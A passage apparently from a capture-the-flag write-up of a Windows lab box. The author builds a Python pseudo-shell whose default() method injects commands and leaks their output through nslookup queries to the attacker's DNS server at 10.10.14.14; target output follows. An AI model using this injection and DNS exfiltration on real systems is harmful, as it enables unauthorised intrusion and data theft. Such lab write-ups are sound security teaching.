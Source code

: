 



    PRIVILEGES INFORMATION
    ----------------------
    Privilege Name Description State
    ============================= ==================================== ========
    SeShutdownPrivilege Shut down the system Disabled
    SeChangeNotifyPrivilege Bypass traverse checking Enabled
    SeUndockPrivilege Remove computer from docking station Disabled
    SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
    SeTimeZonePrivilege Change the time zone Disabled
    SeTimeZonePrivilege Change the time zone Disabled



I lose spacing, `/`, and any line with `..` in it. But other than that,
it's pretty solid.

### Updating Command Sending

Now I just need to update `default()` to generate the command string and
send it. I'll need to start with a `&` to add another command, then put
my loop:



     55     def default(self, args):
     56         command = f'''& (FOR /F "tokens=1-26" %a IN ('{args}') DO ( nslookup "Q%aX.Q%bX.Q%cX.Q%dX.Q%eX.Q%fX.Q%gX.Q%hX.Q%iX.Q%jX.Q%kX.Q%lX.Q%mX.Q%nX.Q%oX.Q%pX.Q%qX.Q%rX.Q%sX.Q%tX.Q%uX.Q%vX.Q%wX.Q%xX.Q%yX.Q%zX" 10.10.14.14 ))'''
     57         self.send_post(command)



### Double Replies

What I have now kind of works, but it's printing everything twice:



    ethereal> whoami
    etherealalan
    etherealalan
    ethereal> dir \
    Volume in drive C has no label.
    Volume in drive C has no label.
    Volume Serial Number is FAD9-1FD5
    Volume Serial Number is FAD9-1FD5
    Directory of c:
    Directory of c:
    07/07/2018 09:57 PM <DIR> Audit
    07/07/2018 09:57 PM <DIR> Audit
    06/30/2018 10:10 PM <DIR> inetpub
    06/30/2018 10:10 PM <DIR> inetpub
    06/26/2018 05:51 AM <DIR> Program Files
    06/26/2018 05:51 AM <DIR> Program Files
    07/16/2018 08:55 PM <DIR> Program Files (x86)
    07/16/2018 08:55 PM <DIR> Program Files (x86)
    07/05/2018 09:38 AM <DIR> Users
    07/05/2018 09:38 AM <DIR> Users
    07/01/2018 09:57 PM <DIR> Windows
    07/01/2018 09:57 PM <DIR> Windows
    0 File(s) 0 bytes
    0 File(s) 0 bytes
    6 Dir(s) 15,415,119,872 bytes free
    6 Dir(s) 15,415,119,872 bytes free
